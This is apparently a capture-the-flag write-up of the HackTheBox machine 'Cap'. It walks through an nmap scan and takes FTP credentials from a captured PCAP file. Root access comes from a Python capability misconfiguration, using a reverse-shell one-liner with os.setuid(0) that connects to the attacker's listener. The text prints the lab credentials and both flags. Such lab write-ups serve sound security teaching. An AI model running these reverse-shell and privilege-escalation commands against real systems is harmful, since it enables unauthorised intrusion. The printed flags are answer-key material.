




# Cap - HackTheBox - Writeup
Linux, 20 Base Points, Easy

## Machine


## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding port ```21```, ```22``` and ```80```.

***User***: By enumerating the website we found a link [http://10.10.10.245/data/0](http://10.10.10.245/data/0) with a PCAP file which includes credentials of ```nathan``` user to FTP/SSH.

***Root***: Found ```/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip``` which is ```setuid``` capability, Create a python script with ```setuid``` command to run the script to get a reverse shell as root.


## Cap Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Cap]
└──╼ $ nmap -sC -sV -oA nmap/Cap 10.10.10.245
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-09 21:01 IDT
Nmap scan report for 10.10.10.245
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 09 Jun 2021 18:06:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 09 Jun 2021 18:06:16 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 09 Jun 2021 18:06:16 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.80%I=7%D=6/9%Time=60C10220%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,15A0,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20W
SF:ed,\x2009\x20Jun\x202021\x2018:06:16\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x201938
SF:6\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\n
SF:\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x
SF:20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image/
SF:png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<l
SF:ink\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">\
SF:n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/font
SF:-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=\
SF:"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.c
SF:ss\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/cs
SF:s/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptions
SF:,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,\x20
SF:09\x20Jun\x202021\x2018:06:16\x20GMT\r\nConnection:\x20close\r\nContent
SF:-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD,\x2
SF:0GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text/
SF:html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20\
SF:x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\n
SF:\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invalid
SF:\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP/
SF:1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189,
SF:"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20We
SF:d,\x2009\x20Jun\x202021\x2018:06:22\x20GMT\r\nConnection:\x20close\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\r
SF:\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20F
SF:inal//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\
SF:n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20serv
SF:er\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20che
SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.69 seconds

```

Let's try to observe port 80:



By clicking on "Security Snapshot (5 Second PCAP + Analysis)" we get the following page:


Let's download the PCAP file and analyze it using Wireshark.

From the PCAP we are not able to find any interesting data.

If we navigate to the page [http://10.10.10.245/data/0](http://10.10.10.245/data/0) we get the following wev page:



By analyzing the PCAP file [0.pcap](0.pcap) we can see the following FTP session which includes user name and password:



We can get the FTP credentials ```nathan:Buck3tH4TF0RM3!```, Let's use those credentials on SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Cap]
└──╼ $ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun  9 19:52:20 UTC 2021

  System load:           0.0
  Usage of /:            35.6% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c1c0

  => There are 4 zombie processes.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun  9 13:45:49 2021 from 10.10.14.8
nathan@cap:~$ cat user.txt 
bd61cd6e496fb1d5473af93e64e8e22e
```

And we get the user flag ```bd61cd6e496fb1d5473af93e64e8e22e```.

### Root


By running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see the following information about [Linux Capabilities](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work):
```console
...
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
...
```

It means we can run ```os.setuid``` command using ```python3.8```.

If we can run ```setuid``` we can write a python script with ```setuid(0)``` command to run commands as a root user.

First, Let's get python revese shell from [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Now, Let's change from ```python``` to ```python3.8``` and append the command ```os.setuid(0)``` and of course change to our IP:
```python
export RHOST="10.10.14.14";export RPORT=4242;python3.8 -c 'import sys,socket,os,pty;os.setuid(0);s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Listen to port 4242 and run the command:
```console
nathan@cap:/tmp$ export RHOST="10.10.14.19";export RPORT=4242;python3.8 -c 'import sys,socket,os,pty;os.setuid(0);s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And we get a shell as a root:
```console
┌─[evyatar@parrot]─[/hackthebox/Cap]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
10.10.10.245: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.245] 51702
# whoami
root
# cd /root
cd /root
# cat root.txt
cat root.txt
8f8914ebc0ac62e4e52c0cae3c9047f8
```

root flag ```8f8914ebc0ac62e4e52c0cae3c9047f8```.
